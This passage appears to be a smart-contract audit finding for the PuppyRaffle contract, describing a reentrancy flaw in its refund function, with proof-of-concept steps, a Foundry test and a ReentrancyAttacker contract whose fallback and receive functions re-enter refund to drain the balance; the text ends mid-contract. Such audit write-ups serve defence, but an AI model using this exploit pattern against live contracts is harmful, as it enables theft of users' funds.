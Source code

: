 A player who has entered a raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund` function again and claim another refund. THey could continue the cycle until the contract balance is drained.

### Impact:
All fees paid by raffle entrants could be stolen by the malicious participant. 

### Proof of Concept:

1. User enters the raffle.
2. Attacker sets up a contract with `fallback`/`receive` function that calls `PuppyRaffle::refund`.
3. Attacker enters the raffle.
4. Attacker calls `PuppyRaffle::refund` function from their attack contract, and drains the contract balance.

### Proof of Code:

Place the following code into `PuppyRaffleTest.t.sol`
```javascript
    function testReentrance() public playersEntered {
        ReentrancyAttacker attacker = new ReentrancyAttacker(address(puppyRaffle));
        vm.deal(address(attacker), 1e18);
        uint256 startingAttackerBalance = address(attacker).balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;

        attacker.attack();

        uint256 endingAttackerBalance = address(attacker).balance;
        uint256 endingContractBalance = address(puppyRaffle).balance;
        assertEq(endingAttackerBalance, startingAttackerBalance + startingContractBalance);
        assertEq(endingContractBalance, 0);
    }
```

And this contract as well

```javascript
    contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(address _puppyRaffle) {
        puppyRaffle = PuppyRaffle(_puppyRaffle);
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
    fallback() external payable {
        _stealMoney();
    }

    receive () external payable {
```
